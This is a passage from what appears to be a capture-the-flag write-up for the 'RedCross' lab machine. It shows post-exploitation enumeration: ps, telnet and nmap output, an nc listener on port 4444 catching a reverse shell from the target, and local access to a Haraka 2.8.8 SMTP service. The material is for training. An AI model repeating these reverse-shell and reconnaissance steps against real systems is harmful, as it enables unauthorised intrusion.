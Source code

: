 The server is running but doesn't appear to be listening on port 25:

```console
www-data@redcross:/home/penelope$ ps waux | grep haraka
ps waux | grep haraka
penelope  1199  0.0  1.9 994608 20068 ?        Ssl  09:47   0:02 node /usr/bin/haraka -c /home/penelope/haraka
```

```console
www-data@redcross:/home/penelope$ telnet 127.0.0.1 25
telnet 127.0.0.1 25
Trying 127.0.0.1...
telnet: Unable to connect to remote host: Connection refused
www-data@redcross:/home/penelope$ netstat -panut
netstat -panut
bash: netstat: command not found
```

Netstat is not installed so I went back to the firewall control page added a whitelist entry for my IP address and scanned the box again with nmap:

```console
root@ragingunicorn:~# nmap -p- 10.10.10.113
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-11 15:18 EST
Nmap scan report for intra.redcross.htb (10.10.10.113)
Host is up (0.018s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
1025/tcp open  NFS-or-IIS
5432/tcp open  postgresql
```

1025 looks interesting but we can't connect to it with telnet:

```console
root@ragingunicorn:~# telnet 10.10.10.113 25
Trying 10.10.10.113...
telnet: Unable to connect to remote host: Connection refused
```

We can connect locally though:

```console
root@ragingunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 52064
/bin/sh: 0: can't access tty; job control turned off
$ telnet 127.0.0.1 1025
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 redcross ESMTP Haraka 2.8.8 ready
quit
```

